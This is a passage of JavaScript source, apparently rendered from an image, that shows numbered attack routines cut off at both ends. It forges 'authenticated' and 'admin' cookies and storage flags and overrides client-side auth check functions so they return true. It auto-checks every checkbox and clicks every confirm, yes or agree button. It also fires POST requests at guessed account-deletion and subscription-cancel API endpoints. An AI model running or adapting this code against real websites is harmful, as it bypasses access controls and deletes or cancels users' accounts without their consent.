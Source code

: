 ```javascript
            return null;
        },
        
        // 6. Authentication Bypass Attempts
        attemptAuthBypass: function() {
            console.log('🔐 Attempting authentication bypass...');
            
            // Set auth cookies
            document.cookie = "authenticated=true; path=/";
            document.cookie = "admin=true; path=/";
            document.cookie = "verified=true; path=/";
            
            // Set localStorage flags
            localStorage.setItem('authenticated', 'true');
            localStorage.setItem('userVerified', 'true');
            sessionStorage.setItem('bypass', 'true');
            
            // Override auth check functions
            if (window.isAuthenticated) window.isAuthenticated = () => true;
            if (window.checkAuth) window.checkAuth = () => true;
            if (window.requireAuth) window.requireAuth = () => true;
        },
        
        // 7. Force Confirmation
        forceConfirmation: function() {
            console.log('✔️ Forcing confirmation...');
            
            // Find and check all checkboxes
            document.querySelectorAll('input[type="checkbox"]').forEach(cb => {
                cb.checked = true;
                cb.dispatchEvent(new Event('change', {bubbles: true}));
            });
            
            // Click all confirm buttons
            document.querySelectorAll('button').forEach(btn => {
                const text = btn.textContent.toLowerCase();
                if (text.includes('confirm') || text.includes('yes') || text.includes('agree')) {
                    btn.click();
                }
            });
        },
        
        // 8. Direct API Attack
        directAPIAttack: async function() {
            console.log('🎯 Direct API attack...');
            
            const endpoints = [
                '/api/dashboard/delete-account',
                '/api/account/delete',
                '/api/user/delete',
                '/api/subscription/cancel',
                '/account/delete',
                '/user/remove'
            ];
            
            for (let endpoint of endpoints) {
                try {
                    const response = await fetch(endpoint, {
                        method: 'POST',
                        headers: {
                            'Content-Type': 'application/json',
                            'X-Requested-With': 'XMLHttpRequest',
                        },
```